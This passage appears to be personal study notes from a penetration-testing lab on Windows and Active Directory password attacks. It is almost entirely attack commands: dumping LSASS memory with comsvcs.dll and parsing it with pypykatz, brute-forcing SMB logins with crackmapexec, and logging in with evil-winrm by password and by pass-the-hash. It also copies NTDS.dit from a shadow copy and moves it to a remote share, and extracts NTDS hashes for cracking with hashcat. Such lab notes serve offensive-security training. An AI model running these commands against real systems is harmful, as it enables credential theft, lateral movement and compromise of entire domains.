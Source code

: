 ```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

Pypykatz can be used to proccess the memory dump and look for juicy info

```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

And can use hashcat to crack these NT hashes -m 1000.

# Attacking Active Directory & NTDS.dit

username-anarchy can be used to generate potential usernames for names.

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

Use crackmapexec to brute force passwords

Now we have a password lets use evilwinrm to connect

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Create shadow of C drive

```shell-session
vssadmin CREATE SHADOW /For=C:
```

Copy NTDS.dit

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

```shell-session
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

Alternatively you can exract like this

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

If hash cracking if unsuccessful we can try to use the hash itslf to authenticate

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

It is worthy to note that it is default behaviour for accounts  to be locked out is too mnay attempts are tried so this bruteforcing attempt will not work in a real world setting.

# Credential Hunting in Windows

